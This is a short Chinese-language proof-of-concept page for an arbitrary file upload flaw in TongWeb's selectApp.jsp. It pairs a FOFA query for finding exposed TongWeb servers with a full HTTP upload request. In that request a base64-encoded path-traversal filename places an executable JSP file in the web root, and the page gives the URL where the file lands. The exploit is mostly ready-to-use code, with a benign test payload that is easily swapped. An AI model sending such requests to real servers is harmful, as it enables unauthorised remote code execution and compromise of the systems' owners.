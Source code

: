 ## 东方通TongWeb-selectApp.jsp存在任意文件上传

东方通TongWeb-selectApp.jsp存在任意文件上传，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa
```javascript
header="TongWeb Server" || banner="Server: TongWeb Server"
```

## poc
```javascript
POST /heimdall/pages/cla/selectApp.jsp HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=fa2ef860e94d564632e291131d20064c
User-Agent: Mozilla/5.0 

--fa2ef860e94d564632e291131d20064c
Content-Disposition: form-data; name="app_fileName"

Li4vLi4vYXBwbGljYXRpb25zL2hlaW1kYWxsLzEyM3F3ZTEuanNw
--fa2ef860e94d564632e291131d20064c
Content-Disposition: form-data; name="app"


--fa2ef860e94d564632e291131d20064c
Content-Disposition: form-data; name="className"

test
--fa2ef860e94d564632e291131d20064c
Content-Disposition: form-data; name="uploadApp"; filename="test.jar"
Content-Type: application/java-archive

<% out.println(16156223+223415616); %>
--fa2ef860e94d564632e291131d20064c--
```

文件上传路径：`http://ip/heimdall/123qwe1.jsp`
